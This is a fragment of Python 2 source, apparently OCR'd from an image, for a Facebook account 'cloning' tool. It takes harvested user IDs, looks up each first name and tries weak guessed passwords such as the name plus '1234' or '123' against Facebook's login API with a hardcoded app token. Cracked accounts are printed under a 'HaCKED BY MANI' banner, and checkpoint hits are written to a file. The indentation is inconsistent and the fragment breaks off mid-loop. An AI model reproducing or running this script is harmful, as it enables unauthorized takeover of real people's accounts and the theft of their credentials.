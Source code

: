 	print "\033[1;36;40m[✺] Total IDs : \033[1;96m"+str(len(id))
	jalan('\033[1;34;40m[✺] sbr kro srkaar...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;32;40m[✺] Cloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;96m        ❈     \x1b[1;92mTo Stop Process Press CTRL+Z \033[1;96m    ❈"
	print "   \033[1;92m●══════════════════◄►══════════════════●"

	jalan('           \033[1;96mMANI start kr deti a cloning tu sbr kr .. ...')
	print  "  \033[1;92m ●══════════════════◄►══════════════════●" 

	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #SMART:MIRZA
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)												
			b = json.loads(a.text)												
			pass1 = b['first_name'] + '1234'												
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			q = json.load(data)												
			if 'access_token' in q:
				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				z = json.loads(x.text)
				print '\x1b[1;96m[  ✓  ] \x1b[1;92mHaCKED BY MANI💉'											
				print '\x1b[1;96m[•⚔•] \x1b[1;92mName \x1b[1;92m ✯ \x1b[1;92m' + b['name']											
				print '\x1b[1;96m[•⚔•] \x1b[1;92mID \x1b[1;92m      ✯ \x1b[1;92m' + user											
				print '\x1b[1;96m[•⚔•] \x1b[1;92mPassword \x1b[1;92m✯ \x1b[1;92m' + pass1 + '\n'											
				oks.append(user+pass1)
                        else:
			        if 'www.facebook.com' in q["error_msg"]:
				    print '\x1b[1;96m[ ❥ ] \x1b[1;96mCP'
				    print '\x1b[1;96m[•⚔•] \x1b[1;96mName \x1b[1;96m    ✯ \x1b[1;97m' + b ['name']
				    print '\x1b[1;96m[•⚔•] \x1b[1;96mID \x1b[1;96m      ✯ \x1b[1;97m' + user
				    print '\x1b[1;96m[•⚔•] \x1b[1;96mPassword \x1b[1;96m✯ \x1b[1;97m' + pass1 + '\n'
				    cek = open("out/super_cp.txt", "a")
				    cek.write("ID:" +user+ " Pw:" +pass1+"\n")
				    cek.close()
				    cekpoint.append(user+pass1)
                                else:
				    pass2 = b['first_name'] + '123'										
                                    data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			            q = json.load(data)												
			            if 'access_token' in q:	
				            x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				            z = json.loads(x.text)
				            print '\x1b[1;96m[  ✓  ] \x1b[1;92mHaCKED BY MANI💉'											
				            print '\x1b[1;96m[•⚔•] \x1b[1;92mName \x1b[1;92m    ✯ \x1b[1;92m' + b['name']											
				            print '\x1b[1;96m[•⚔•] \x1b[1;92mID \x1b[1;92m      ✯ \x1b[1;92m' + user								
				            print '\x1b[1;96m[•⚔•] \x1b[1;92mPassword \x1b[1;92m✯ \x1b[1;92m' + pass2 + '\n'											
				            oks.append(user+pass2)
                                    else:
			                   if 'www.facebook.com' in q["error_msg"]:
				               print '\x1b[1;96m[ ❥ ] \x1b[1;96mCP'
				               print '\x1b[1;96m[•⚔•] \x1b[1;96mName \x1b[1;96m    ✯ \x1b[1;97m' + b['name']
				               print '\x1b[1;96m[•⚔•] \x1b[1;96mID \x1b[1;96m      ✯ \x1b[1;97m' + user
				               print '\x1b[1;96m[•⚔•] \x1b[1;96mPassword \x1b[1;96m✯ \x1b[1;97m' + pass2 + '\n'